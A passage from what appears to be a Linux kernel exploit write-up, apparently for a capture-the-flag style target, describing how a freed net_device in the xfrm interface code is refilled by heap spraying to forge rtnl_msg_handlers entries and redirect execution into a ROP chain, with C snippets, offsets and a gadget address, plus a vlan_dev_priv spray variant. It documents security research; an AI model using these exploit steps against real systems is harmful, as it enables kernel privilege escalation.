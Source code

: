 8. Now rtnl_msg_handlers[1] = struct net_device of test1 + NETDEV_PRIV, we only need to forge a legitimate rtnl_msg_handlers[1] to hijack the control flow:

First, free the memory used to fill the `test1` heap with heap spray in step 6. Then re-pad it:
```
	//Heap spray to re-pad it.
    memset(message, 0x41, MSG_SIZE);
	*(uint64_t *)&message[NETDEV_PRIV-SIZEOF_MGS_MGS+OFFSET_XFRM_IF_DEV] = address_of_test3_dev + NETDEV_PRIV; //xi->dev, will be threated as rtnl_msg_handlers[1][1]
	*(uint64_t *)&message[NETDEV_PRIV-SIZEOF_MGS_MGS+OFFSET_XFRM_IF_P_LINKID_AND_P_IFID] = 0x1000000000; //xfrm_if->p.link = 0 and xfrm_if->p.if_id = 1
	*(uint64_t *)&message[NETDEV_PRIV-SIZEOF_MGS_MGS+OFFSET_XFRM_IF_P_COLLECT_MD] = 1;//xfrm_if->p.collect_md
```
Next, free the memory used to fill the `test3` heap with heap spray in step 5. Then re-pad it:
```
    memset(message, 0, MSG_SIZE);
    *(uint64_t *)&message[NETDEV_PRIV-SIZEOF_MGS_MGS+OFFSET_XFRM_IF_DEV] = FIRST_GADGET + kernel_off ; // xfrm_if->dev, will be treated as struct rtnl_link->doit leave ; pop rbx ; pop rbp ; mov eax, ecx ; pop r12 ; pop r13 ; ret
```

9. Finally, call rtnl_msg_handlers[1][1]->do_it and jump to ROP.

#### Migrate
The only difference between miigrate target and lts&cos is how to fill the released `struct net_device` with heap spray. Due to the special nature of migrate, we cannot use msg_msg to fill it. I found another structure similar to `struct xfrm_if`, `struct vlan_dev_priv`:

```
struct vlan_dev_priv {
	unsigned int				nr_ingress_mappings;
	u32					ingress_priority_map[8];
	unsigned int				nr_egress_mappings;
	struct vlan_priority_tci_mapping	*egress_priority_map[16];

	__be16					vlan_proto;
	u16					vlan_id;
	u16					flags;

	struct net_device			*real_dev;
	netdevice_tracker			dev_tracker;

	unsigned char				real_dev_addr[ETH_ALEN];

	struct proc_dir_entry			*dent;
	struct vlan_pcpu_stats __percpu		*vlan_pcpu_stats;
#ifdef CONFIG_NET_POLL_CONTROLLER
	struct netpoll				*netpoll;
#endif
};
```

 We can use `vlan_changelink` and `vlan_newlink` to spray and modify the memory of `struct xfrm_if`.

 